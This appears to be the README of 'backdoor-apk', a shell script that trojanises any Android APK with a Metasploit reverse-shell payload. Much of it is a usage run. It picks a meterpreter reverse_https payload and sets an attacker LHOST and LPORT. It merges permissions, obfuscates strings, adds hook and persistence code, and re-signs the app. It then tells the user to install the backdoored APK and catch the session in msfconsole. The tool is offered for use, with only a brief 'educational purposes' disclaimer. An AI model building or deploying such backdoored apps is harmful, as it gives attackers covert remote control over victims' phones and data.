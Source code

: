 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
[root:...p/backdoor-apk/backdoor-apk]# ./backdoor-apk.sh ReChat_0.8.16.apk

          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA      PPPPPPP    KKK  KKK
         |||_||_|||         AAA  AAA     PPP  PPP   KKK KKK
         || _  _o|| (o)    AAAA  AAAA    PPP  PPPP  KKKKKK
         ||| || |||       AAAAAAAAAAAA   PPPPPPPP   KKK KKK
         |||_||_|||      AAAA      AAAA  PPPP       KKK  KKK
         ||______||     AAAA        AAAA PPPP       KKK  KKKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|             Dana James Traversie


[*] Running backdoor-apk.sh v0.1.5 on Fri Sep 30 19:38:46 EAT 2016
[+] Android payload options:

1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option:2

[?] Please enter an LHOST value: 10.9.45.115
[?] Please enter an LPORT value: 443
++++++++ Checking for required Libraries ++++++++
 lib32z1 installed
 lib32ncurses5 installed
 lib32stdc++6 installed

[*] Generating RAT APK file... Done!
   [+] Using payload: android/meterpreter/reverse_https
   [+] Handle the reverse connection at: 10.9.45.115:443
[*] Decompiling RAT APK file... Done!
[*] Decompiling original APK file...  Done!
[*] Merging permissions of original and payload projects...  Done!
[*] Running proguard on RAT APK file...  Done!
[*] Decompiling obfuscated RAT APK file... Done!
[*] Creating new directories in original project for RAT smali files... Done!
[*] Copying RAT smali files to new directories in original project... Done!
[*] Fixing RAT smali files... Done!
[*] Obfuscating const-string values in RAT smali files... Done!
[*] Locating smali file to hook in original project... Done!
[*] Adding hook in original smali file... Done!
[*] Adding persistence hook in original project... Done!
[*] Recompiling original project with backdoor... Done!
[*] Generating RSA key for signing... Done!
[*] Signing recompiled APK... Done!
[*] Verifying signed artifacts... Done!
[*] Aligning recompiled APK... Done!
[*] Generating Metasploit rc file.. Done!

 To start the handler run :   msfconsole -r backdoorApk.rc
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection at the specified IP and port (`msfconsole -r backdoorApk.rc`).

